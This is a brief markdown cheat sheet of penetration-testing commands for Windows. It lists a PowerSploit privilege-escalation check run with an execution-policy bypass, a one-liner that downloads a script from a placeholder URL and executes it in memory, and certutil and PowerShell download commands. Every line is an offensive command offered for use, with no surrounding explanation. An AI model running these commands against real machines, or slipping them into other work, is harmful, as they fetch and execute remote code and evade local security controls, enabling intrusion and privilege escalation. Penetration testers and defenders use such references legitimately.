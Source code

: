# Helpful pentest commands

## Powersploit

* powershell -exec bypass -c "Import-Module .\Privesc; Invoke-AllChecks"

#### Download In-Memory:

* powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://\<PRIVESC URL\>’); Invoke-AllChecks”

## Simple Download:

* certutil -urlcache -split -f "http://..."

* IEX (New-Object Net.WebClient).DownloadString(‘http://...’)
